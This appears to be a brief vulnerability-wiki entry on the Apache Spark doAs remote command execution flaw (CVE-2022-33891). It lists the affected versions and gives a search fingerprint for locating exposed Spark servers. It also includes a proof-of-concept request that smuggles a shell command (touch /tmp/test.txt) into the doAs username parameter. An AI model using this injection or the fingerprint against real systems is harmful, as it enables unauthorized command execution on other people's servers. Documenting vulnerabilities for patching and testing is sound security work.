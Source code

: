 # Apache Spark doAs remote command execution vulnerability CVE-2022-33891

## Vulnerability Description

Apache Spark supports starting ACLs to provide authentication for Web UI access, and when ACLs start, you can create RCEs by constructing a special request username.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Spark Core - Apache <=3.0.3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">3.1.1 <= Spark Core - Apache <=3.1.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">3.2.0 <= Spark Core - Apache <=3.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="APACHE-Spark"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662174736577-4e5a3852-3359-43a2-8470-228e306f34e5.png)

Verify POC

```html
/jobs/?doAs=`touch /tmp/test.txt`
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662174983427-249a9ba2-f516-45dc-b08e-206c2830ff81.png)